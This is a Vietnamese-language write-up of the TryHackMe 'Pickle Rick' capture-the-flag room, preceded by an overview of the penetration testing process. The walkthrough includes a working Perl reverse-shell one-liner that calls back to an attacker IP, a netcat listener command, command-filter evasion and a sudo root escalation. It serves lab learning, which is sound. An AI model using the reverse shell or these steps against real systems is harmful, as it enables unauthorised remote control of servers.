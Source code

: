 # Bài 1: Tấn công, xâm nhập và kiểm soát server Pickle Rick – TryHackMe (Phần 1)
## Quy trình penetration testing 
Quy trình penetration testing có thể được chia thành các bước như sau:

![image](https://github.com/HoangVietAnh09/Others/assets/111860567/c92e41c3-3881-45fc-98d2-1607f15be0c2)

### Performing reconnaissance (Thu thập thông tin từ bên ngoài)
pentester trong vai một người dùng ngoài mạng bình thường có mục tiêu là thu thập càng nhiều thông tin về server nạn nhân càng tốt bằng cách sử dụng các công cụ như nmap, dirsearch, gobuster, v.v. Nhằm mục đích trả lời các câu hỏi sau:

* IP của server nạn nhân là bao nhiêu?
* Máy nạn nhân có đang online hay không?
* Server nạn nhân có bao nhiêu dịch vụ đang chạy?
* Version của mỗi dịch vụ là bao nhiêu?
* Server nạn nhân có bao nhiêu ports đang mở và ports nào đang bị tường lửa chặn (filtered)?
* Server nạn nhân đang chạy hệ điều hành (OS) nào?
* Nếu server nạn nhân có chạy một website
  * Có xác định được tên nền tảng web và version hay không?
  * Front end code có chứa thông tin nhạy cảm hay không?
  * Có tìm được file robot.txt, hay những thư mục hoặc file ẩn trên web hay không?
  * Có tìm được trang đăng nhập web hay không? v.v.
* Nếu server có chạy SMB hoặc FTP
  * Có tìm được fileshare hay không?
  * Account anonymous có mở hay không?
  * Có tìm và đọc được file lưu trữ bên trong hay không?
* v.v
### Identifying vulnerabilities (Xác định lỗ hổng có thể xâm nhập)
Sau khi đã thu thập được thông tin ở B1, pentester sẽ bắt đầu phân tích, chọn lọc và tiến hành xâm nhập thử nghiệm để tìm ra những cách xâm nhập hệ thống nạn nhân tối ưu nhất ví dụ như:

* Default login (Mật khẩu đăng nhập mặc định)
* SQL injection/noSQL injection
* Local File Inclusion (LFI)
* File/command injection
* CVE vulnerabilities
* Bruteforce/dictionary attack
* v.v

### Exploiting vulnerabilities (Tiến hành xâm nhập)
Tùy theo lỗi bảo mật được khai thác mà pentester có thể ngay lập tức lấy được giao diện dòng lệnh dùng để điều khiển máy nạn nhân hoặc chỉ có thể xâm nhập vào admin dashboard của nền tảng đang được sử dụng.
### Privileges escalation (Nâng quyền quản trị)
 Sau khi xâm nhập thành công vào server nạn nhân, bạn thường chỉ có được quyền quản trị của một người dùng bình thường với quyền hạn hạn chế. Nhiệm vụ tiếp theo pentester cần làm đó là tìm cách để nâng quyền quản trị của mình lên cấp cao nhất (quyền root) để nắm toàn quyền kiểm soát server nạn nhân.
 ### Gathering information (Thu thập thông tin nội mạng)
 Sau khi thành công có được quyền root của server nạn nhân, nếu hợp đồng với khách hàng yêu cầu bạn pentest luôn toàn bộ hệ thống mạng nội bộ, bạn sẽ tiếp tục sử dụng server mình vừa chiếm được để thu thập thông tin nội mạng để tìm hướng tấn công tiếp. 
 ### Creating Pivot point (Tạo hệ thống tấn công nội mạng)
 Sau khi có được thông tin nội mạng cần thiết, pentester sẽ sử dụng hệ thống mà mình đang kiểm soát để cài đặt các phần mềm phục vụ cho việc tấn công nội mạng. 
### Cleaning up (Dọn dẹp)
Sau khi pentest xong, pentest sẽ gỡ bỏ những phần mềm đã cài đặt trên máy nạn nhân.
### Reporting (Báo cáo)
Pentester viết báo cáo mô tả lại quá trình pentest, lỗ hổng đã khai thác và đánh giá mức độ nghiêm trọng, đồng thời đề ra giải pháp khắc phục lỗ hổng.

Quy trình trên chỉ là một quy trình chung và khá tối giản. Thực tế khi bạn nhận hợp đồng pentest, điều khoản sẽ phải ghi rõ giới hạn mà bạn được pentest nên quy trình chi tiết có thể thay đổi. 
## Thực hành pentest phòng Pickle Rick – TryHackMe
Thử scan bằng nmap thì thấy có port 80 chạy apache và port 22 chạy OpenSSH.
Chạy thử cổng 80 thì đây là một trang web. Xem thử source code ta thấy được username của acc nào đấy. Dùng dirsearch để tìm các hidden directories thì thấy có file robots.
Vào đấy ta thấy được dòng . Có vẻ đây là mật khẩu.Thêm nữa chúng ta tìm thấy trang login tại login.php. Thử login với username và password vừa tìm được thì thành công.
Mình thư test lệnh ```ls -la``` thì thành công. Mình thử đọc file flag đầu tiên bằng ```cat Sup3rS3cretPickl3Ingred.txt``` thì mình thấy lệnh ```cat``` đã bị disable. Nhưng ngoài ```cat``` mình vẫn có thể dùng ```strings``` để đọc file.

Mình thử về thư mục gốc rồi vào home rồi đến rick thì thấy part 2. Vì ngày sau khi chúng ta execute lệnh thì chúng ta sẽ được chuyển về ```/var/www/html``` nên mình cần execute lệnh bằng 1 lệnh
```cd /; cd /home/rick; strings 'second ingredients'```

Để lấy được flag 3 mình sẽ tạo 1 TCP reverse shell để thực thi lệnh phía webserver từ máy mình. Câu lệnh như sau:

```
perl -e 'use Socket;$i="10.4.88.80";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

với $i là địa chỉ máy mình và $p là port mở.

Để mở port mình dùng lệnh; ```nc -nlvp 8888```

Với flag:
* -n: Mang ý nghĩa chúng ta sẽ chỉ dùng IPv4 address, không dùng domain
* -l: Chế độ lắng nghe
* -v: Verbose – Cho biết quá trình lắng nghe đang diễn ra thế nào
* -p: Chỉ định port để lắng nghe

Sau khi kết nối với webserver mình xem thử có các lệnh nào mình có thể thực hiện bằng ```sudo -l``` thì thấy mình có all quyền mà không cần mật khẩu.
update quyền lên root bằng ```sudo su``` rồi vào /root mình lấy được part 3.

*Các bước làm trong file procession.txt*


